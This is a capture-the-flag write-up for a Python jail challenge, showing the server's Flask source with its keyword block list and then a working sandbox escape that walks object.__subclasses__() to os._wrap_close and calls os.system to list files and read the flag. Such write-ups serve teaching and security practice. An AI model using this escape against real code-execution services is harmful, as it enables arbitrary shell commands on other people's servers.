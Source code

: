 
> I found this old website that runs your python code, but the security hasn't been updated in years
> I'm sure there's a flag floating around, can you find it?

> You can run python code from anywhere! Upload code from your phone! (Note: code cannot import libraries or use some keywords. Please stop trying to.)

This is a basic pyjail challenge. Imports and certain keywords are blocked. The source code of the server is provided, so we can see what exactly is allowed.

Notably:
```python
# app.py
blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec", "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys", "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]
```

There are a few other checks, including one that blocks non-ASCII characters, and a limit on the number of lines in the file.

<details>
<summary>Full `app.py`</summary>
``` python
from flask import Flask, request, render_template, redirect
from ast import parse
import re
import subprocess
import uuid

app = Flask(__name__)
app.static_folder = 'static'
app.config['UPLOAD_FOLDER'] = './uploads'

@app.route('/')
def index():
    return render_template('home.html')

@app.route('/upload')
def upload():
    return render_template('index.html')

@app.route('/submit', methods=['GET', 'POST'])
def submit():
    if 'file' not in request.files:
        return redirect('/')
    f = request.files['file']
    fname = f"uploads/{uuid.uuid4()}.py"
    f.save(fname)
    code_to_test = re.sub(r'\\\s*\n\s*', '', open(fname).read().strip())
    if not code_to_test:
        return redirect('/')
    tested = test_code(code_to_test)
    if tested[0]:
        res = ''
        try:
            ps = subprocess.run(['python', fname], timeout=5, capture_output=True, text=True)
            res = ps.stdout
        except:
            res = 'code timout'
        return render_template('submit.html', code=code_to_test.split('\n'), text=res.strip().split('\n'))
    else:
        return render_template('submit.html', code=code_to_test.split('\n'), text=[tested[1]])

@app.route('/static/<path:path>')
def static_file(filename):
    return app.send_static_file(filename)

def test_for_non_ascii(code):
    return any(not (0 < ord(c) < 127) for c in code)

def test_for_imports(code):
    cleaned = clean_comments_and_strings(code)
    return 'import ' in cleaned

def test_for_invalid(code):
    if len(code) > 1000:
        return True
    try:
        parse(code)
    except:
        return True
    return False

blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec",
        "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys",
        "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]

blocked_regex = re.compile(fr'({"|".join(blocked)})(?![a-zA-Z0-9_])')

def test_for_disallowed(code):
    code = clean_comments_and_strings(code)
    return blocked_regex.search(code) is not None

def test_code(code):
    if test_for_non_ascii(code):
        return (False, 'found a non-ascii character')
    elif test_for_invalid(code):
        return (False, 'code too long or not parseable')
    elif test_for_imports(code):
        return (False, 'found an import')
    elif test_for_disallowed(code):
        return (False, 'found an invalid keyword')
    return (True, '')

def clean_comments_and_strings(code):
    code = re.sub(r'[rfb]*("""|\'\'\').*?\1', '', code,
                  flags=re.S)
    lines, res = code.split('\n'), ''
    for line in lines:
        line = re.sub(r'[rfb]*("|\')(.*?(?!\\).)?\1',
                      '', line)
        if '#' in line:
            line = line.split('#')[0]
        if not re.fullmatch(r'\s*', line):
          res += line + '\n'
    return res.strip()

if __name__ == '__main__':
    app.run(debug=True)
```
</details>

Sidenote: when I was solving this challenge I didn't realize the source code was provided, which didn't make a big difference but did lead to me wasting some time experimenting with which keywords were blocked.

Most of the obvious solutions are prevented by the blocked keywords, and lack of imports. 

I started by printing out all of the subclasses of `object` to see what classes I had access to:
``` python
print(object.__subclasses__())
```

This returned a long list of classes to look through. I ended up just `CMD+F`ing for `os` to try to find any classes of interest, and the only result was `os._wrap_close`.

I tried googling this class since I had no idea was it was, but surprisingly I found absolutely zero information about it, so I'm still not sure what it really is. However I did find [one useful page](https://blog.p6.is/Python-SSTI-exploitable-classes/) detailing how it could be exploited.

From that page:
``` python
[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['system']('ls')
```

It looks like the initializer for `os._wrap_close` has a reference to the `system` function, which can be used to execute shell commands!

We just need to grab that class from the list we got earlier, and then we can use the `ls` command to look around the file system:
``` python
print([x for x in object.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('ls'))
```

```
Dockerfile
__pycache__
app.py
flag-b5a31b65-07a2-479c-bed4-f371a9bbdd1d.txt
run.sh
static
templates
uploads
```

There's the flag!

Read the file with `cat`:
``` python
print([x for x in object.__subclasses__() if x.__name__ == "_wrap_close"][0].__init__.__globals__['system']('cat flag-b5a31b65-07a2-479c-bed4-f371a9bbdd1d.txt'))
```

And we get the flag:
```
tjctf{oops_bad_filter_3b582f74}
```
